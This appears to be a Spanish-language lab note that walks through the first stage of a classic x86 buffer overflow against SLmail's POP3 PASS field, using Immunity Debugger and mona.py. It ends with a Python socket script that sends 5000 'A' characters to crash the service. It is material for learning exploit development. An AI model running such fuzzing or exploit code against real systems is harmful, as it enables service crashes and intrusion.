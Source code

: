 -----
- Tags: #practico #ejemplificación 
- -----
# Escenario 

Para realizar un Buffer Overflow en una máquina con arquitectura de 32 bits, necesitamos un programa llamado [Immunity Debugger](https://www.immunityinc.com/products/debugger/) el cual es un depurador de 32 bits para windows. Por otro lado necesitaremos un script en python llamado [mona.py](https://github.com/corelan/mona) para automatizar y facilitar las búsquedas en el inmunity debugger, una vez descargado, este deberá ser movido a la ruta de **C:\\LocalFiles\\InmunityInc\\ImmunityDebugger\\PyCommands**. 

Para practicar todo esto obviamente usamos una [iso de windows 7 premium](https://windows-7-home-premium.uptodown.com/windows). 

------

# Basic Buffer Overflow x86

Para ejemplificar un caso de explotación de Buffer Overflow x86 BÁSICO se usara el windows 7 premium junto a un programa conocido por su vulnerabilidad BOF en un campo PASS el cual se llama *SLmail*. 

Una vez que tengamos la aplicación desplegada, la misma nos abrirá en la maquina windows el puerto **110**, por lo que nos podríamos intentar conectar con **telnet** o **netcat** para intentar ingresar los campos necesarios (USER & PASS).

Si nos conectamos (**telnet {ip} 110**) e ingresamos **USER dobliuw** y **PASS test** veremos que nos arroja un error por que las credenciales no son válidas, pero de momento el programa estaría funcionando. Si nos abrimos el **immunity debugger** en el windows *attacheando* la tarea del *slmail* podremos ver los registros, la pila, entre otras cosas.

La idea es ingresar múltiples caracteres hasta producir un fallo en el programa debido a sobrescribir los valores de la pila y los registros. Una vez logrado el fallo en el mismo comenzamos con el trabajo para buscar el **offset**. Por lo que para todo este trabajo podemos realizar un script en python jugando con **sockets**.

```python
#!/usr/bin/python3 

import socket
import sys 

ip = "192.168.1.34"
port = 110

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Se crea una conexión el la variable s

    s.connect((ip, port)) # Nos conectamos a la ip y el puerto dado 

    banner = s.recv(1024) # Recibimos la respuesta de 1024 bytes 
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #Envíamos la string "USER dobliuw" en formato byte y "\r\n" es una manera de simular el ENTER
        response = s.recv(1024)
        print(response)
        s.send(b"PASS " + b"A"*5000 + b'\r\n') # Envíamos la string "PASS AAAAAAAAAA...." en formato byte, siendo el 5000 la cantidad de caracteres a probar hasta generar el fallo.
        s.close()


if __name__ == "__main__":
    bof()
```